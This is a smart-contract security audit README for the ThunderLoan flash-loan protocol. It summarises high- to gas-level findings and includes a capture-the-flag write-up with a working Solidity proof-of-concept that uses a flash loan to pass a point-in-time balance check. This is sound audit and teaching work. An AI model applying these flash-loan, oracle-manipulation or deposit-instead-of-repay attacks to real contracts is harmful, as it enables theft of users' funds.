

<p align="center">

<br/>

# 🔐 ThunderLoan Security Audit

A comprehensive security audit of the **ThunderLoan** Flash Loan protocol.

**Lead Security Researcher:** [GushALKDev](https://github.com/GushALKDev)

---

## 📋 Table of Contents

- [Audit Overview](#audit-overview)
- [📄 Full Audit Report (PDF)](#-full-audit-report-pdf)
- [Severity Classification](#severity-classification)
- [Executive Summary](#executive-summary)
- [Findings](#findings)
  - [High Severity](#-high-severity)
  - [Medium Severity](#-medium-severity)
  - [Low Severity](#-low-severity)
  - [Informational](#-informational)
  - [Gas Optimizations](#-gas-optimizations)
- [Section 6: NFT Exploit Challenge](#-section-6-nft-exploit-challenge)
- [Tools Used](#-tools-used)
- [Lessons Learned](#-lessons-learned)

---

## Audit Overview

| Item | Detail |
|------|--------|
| **Audit Commit Hash** | `e643a8d4c2c802490976b538dd009b351b1c8dda` |
| **Solidity Version** | `0.8.20` |
| **Target Chain** | Ethereum |
| **Scope** | `src/protocol/ThunderLoan.sol`, `src/protocol/AssetToken.sol`, `src/protocol/OracleUpgradeable.sol`, `src/upgradedProtocol/ThunderLoanUpgraded.sol` |
| **Methods** | Manual Review, Static Analysis (Slither, Aderyn), Invariant Testing |

---

## 📄 Full Audit Report (PDF)

> **[📥 Download the Complete Audit Report (PDF)](./audit-info/report.pdf)**

The full report contains detailed findings with complete Proof of Concept code, diff patches, and comprehensive recommendations.

---

## Severity Classification

| Severity | Impact |
|----------|--------|
| 🔴 **High** | Critical vulnerabilities leading to direct loss of funds or complete compromise |
| 🟠 **Medium** | Issues causing unexpected behavior or moderate financial impact |
| 🟡 **Low** | Minor issues that don't directly risk funds |
| 🔵 **Info** | Best practices and code quality improvements |
| ⚡ **Gas** | Gas optimization opportunities |

---

## Executive Summary

The **ThunderLoan** protocol contains **critical security vulnerabilities** that make it **unsafe for production deployment**. Major issues were found in the upgrade mechanism, exchange rate calculations, and flash loan repayment logic.

### Key Metrics

| Severity | Count |
|----------|-------|
| 🔴 High | 4 |
| 🟠 Medium | 3 |
| 🟡 Low | 4 |
| 🔵 Info | 8 |
| ⚡ Gas | 2 |
| **Total** | **21** |

### Critical Risks

- ⚠️ **Storage Collision on Upgrade**: Fee changes from 0.3% to 100% after upgrade, breaking protocol.
- ⚠️ **Exchange Rate Manipulation**: Deposits incorrectly update exchange rate, causing LP losses.
- ⚠️ **Deposit Instead of Repay**: Users can steal funds by using `deposit()` instead of `repay()`.
- ⚠️ **Incorrect Fee Calculation**: Flash loan fees are calculated in WETH value instead of token units.

---

## Findings

### 🔴 High Severity

| ID | Finding | Location |
|----|---------|----------|
| H-1 | Storage collision after upgrade breaks protocol functionality due to removal of `s_feePrecision` variable | `ThunderLoanUpgraded.sol` |
| H-2 | Exchange rate is incorrectly updated during deposits, causing liquidity providers to lose funds | `ThunderLoan::deposit()` |
| H-3 | Users can steal funds by depositing instead of repaying flash loans | `ThunderLoan::flashloan()` |
| H-4 | Flash loan fee is calculated in WETH value instead of token units | `ThunderLoan::getCalculatedFee()` |

---

### 🟠 Medium Severity

| ID | Finding | Location |
|----|---------|----------|
| M-1 | Oracle price manipulation allows attackers to pay reduced flash loan fees | `OracleUpgradeable::getPriceInWeth()` |
| M-2 | Protocol becomes unusable if underlying token is paused or blacklisted | `AssetToken::transferUnderlyingTo()` |
| M-3 | Nested flash loans with the same token break due to premature flag reset | `ThunderLoan::repay()` |

---

### 🟡 Low Severity

| ID | Finding | Location |
|----|---------|----------|
| L-1 | Uninitialized proxy can be frontrun, allowing attacker to take ownership | `ThunderLoan::initialize()` |
| L-2 | `IThunderLoan` interface is not implemented by `ThunderLoan` contract | Interface mismatch |
| L-3 | Missing event emission when flash loan fee is updated | `ThunderLoan::updateFlashLoanFee()` |
| L-4 | Division by zero if `totalSupply()` is zero in `updateExchangeRate()` | `AssetToken::updateExchangeRate()` |

---

### 🔵 Informational

| ID | Finding |
|----|---------|
| I-1 | Solidity 0.8.20 includes PUSH0 opcode which may not be compatible with all EVM chains |
| I-2 | Missing NatSpec documentation across multiple contracts |
| I-3 | Unused error `ThunderLoan__ExhangeRateCanOnlyIncrease` |
| I-4 | Incorrect import location for `IThunderLoan` interface |
| I-5 | Centralization risk: Owner has significant control over protocol |
| I-6 | `OracleUpgradeable::getPrice()` function is redundant |
| I-7 | Functions could be marked as `external` instead of `public` |
| I-8 | Insufficient test coverage leaves critical functionality untested |

---

### ⚡ Gas Optimizations

| ID | Finding |
|----|---------|
| G-1 | Cache `s_exchangeRate` and `totalSupply()` in `updateExchangeRate()` |
| G-2 | `s_feePrecision` should be a constant |

---

## 🎯 Section 6: NFT Exploit Challenge



### 🕵️‍♂️ The Challenge

The Section 6 NFT challenge requires depositing **2,000,000 S6Tokens** into the `S6` contract to claim the **"Oracle Manipulation Wizard"** NFT. The catch? The only way to "buy" tokens is through a function that requires **1,000,000 ETH** – an obviously impossible amount.

However, the `S6Market` contract provides a **flash loan** mechanism that allows borrowing the entire token supply without any fees!

### 💡 The Vulnerability

The vulnerability is **NOT in the flash loan**. Flash loans are designed to let you use tokens freely as long as you return them. The flaw is in the `S6` contract itself:

1. `solveChallenge()` only checks the balance **at that moment in time**
2. After minting the NFT, **nothing prevents you from withdrawing your tokens**
3. This allows you to recover the deposited tokens and repay the flash loan

```solidity
// S6.sol - The vulnerable pattern
function solveChallenge(string memory twitterHandle) external {
    // Only checks balance NOW, doesn't lock tokens permanently
    if (i_s6token.balanceOf(address(this)) >= S6_NFT_COST) {
        emit Exploited("Contract Exploited!!");
    }
}

function withdrawMoney() external {
    // Can withdraw AFTER claiming the NFT!
    uint256 balanceToReturn = s_balances[msg.sender];
    s_balances[msg.sender] = 0;
    i_s6token.safeTransfer(msg.sender, balanceToReturn);
}
```

### 🔓 The Exploit

The attack flow is:

1. **Take a flash loan** for 2,000,000 S6Tokens from `S6Market`
2. **Deposit tokens** into the `S6` contract during the `execute()` callback
3. **Solve the challenge** while we have the required balance
4. **Withdraw tokens** after claiming the NFT
5. **Repay the flash loan** to complete the transaction

### 💻 Proof of Concept

```solidity
contract S6FlashLoanExploit is Test, IFlashLoanReceiver {
    using SafeERC20 for S6Token;

    S6 private s6;
    S6Token private s6Token;
    S6Market private s6Market;

    function setUp() public {
        s6 = new S6(address(this));
        s6Token = S6Token(s6.getToken());
        s6Market = S6Market(s6.getMarket());
    }

    function testSolveS6Challenge() public {
        // Start the flash loan
        s6Market.flashLoan(2000000e18);
        console2.log("Section 6 contract exploited!");
    }

    function execute() external payable {
        // Approve the S6 contract to spend the tokens
        s6Token.approve(address(s6), 2000000e18);
        // Deposit the tokens
        s6.depositMoney(2000000e18);
        // Solve the challenge
        s6.solveChallenge("");
        // Withdraw the tokens after getting the NFT
        s6.withdrawMoney();
        // Repay the flash loan
        s6Token.safeTransfer(msg.sender, s6Token.balanceOf(address(this)));
    }

    function owner() external view returns (address) {
        return address(this);
    }
}
```

### ✅ Key Takeaways

1. **Point-in-time balance checks are dangerous**: Checking a balance only at one moment allows temporary deposits that can be withdrawn immediately after
2. **If you require funds, lock them permanently**: The S6 contract should have transferred/burned the tokens, not just checked the balance
3. **Flash loans amplify vulnerabilities**: While the flash loan worked correctly, it enabled exploiting the S6 contract's flawed logic
4. **Always consider the full transaction flow**: The vulnerability only becomes apparent when you trace: borrow -> deposit -> claim -> withdraw -> repay

---

## 🛠 Tools Used

| Tool | Purpose |
|------|---------|
| [Foundry](https://github.com/foundry-rs/foundry) | Testing & local development |
| [Slither](https://github.com/crytic/slither) | Static analysis |
| [Aderyn](https://github.com/Cyfrin/aderyn) | Smart contract analyzer |

---

## 📚 Lessons Learned

1.  **Storage Layout in Upgrades**: When upgrading contracts, never remove or reorder storage variables. Use placeholder slots if a variable must be deprecated.

2.  **Flash Loan Protections**: Always verify HOW funds are returned, not just that the balance is correct. Use reentrancy guards and prevent deposits during flash loans.

3.  **Oracle Security**: Spot prices from AMMs are trivially manipulable. Use TWAPs or Chainlink for any value-based calculations.

4.  **Exchange Rate Logic**: Be extremely careful with exchange rate updates. They should only occur when actual value (fees) is added to the protocol.

5.  **Interface Consistency**: Ensure interfaces match their implementations exactly. Type mismatches (`address` vs `IERC20`) break interoperability.

6.  **Test Coverage**: The 0% coverage on `ThunderLoanUpgraded.sol` directly contributed to missing H-1. Always test upgrade scenarios.

7.  **Flash Loan Attack Patterns**: Flash loans enable "infinite capital" attacks. Any protocol with balance checks or deposit functions must consider flash loan vectors.

---

Made with ❤️ by **GushALKDev** | Advancing in Smart Contract Security
